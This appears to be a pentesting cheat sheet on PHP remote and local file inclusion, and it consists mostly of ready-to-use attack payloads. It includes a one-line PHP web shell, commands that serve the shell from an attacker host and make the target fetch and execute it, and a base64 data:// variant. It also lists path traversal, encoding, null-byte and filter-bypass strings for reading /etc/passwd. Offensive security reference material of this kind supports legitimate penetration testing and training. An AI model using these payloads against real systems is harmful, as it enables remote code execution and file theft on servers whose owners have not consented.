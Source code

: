 ```yaml
---
icon: file-code
---
```


# File Inclusion

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```powershell
http://<target>/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

<pre class="language-bash"><code class="lang-bash">echo '&#x3C;?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
<strong>curl 'http://&#x3C;target>/index.php?page=http://&#x3C;attacker>/shell.txt&#x26;cmd=&#x3C;comand>'
</strong></code></pre>

If the server were blocking access to external resources, we could try using the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```powershell
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://<target>/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://<target>/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://<target>/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://<target>/index.php?page=%252e%252e%252fetc%252fpasswd
http://<target>/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Absolute Path

```powershell
http://<target>/index.php?page=/etc/passwd
```

### Truncation

```powershell
http://<target>/index.php?page=../../../etc/passwd......[ADD MORE]
http://<target>/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://<target>/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
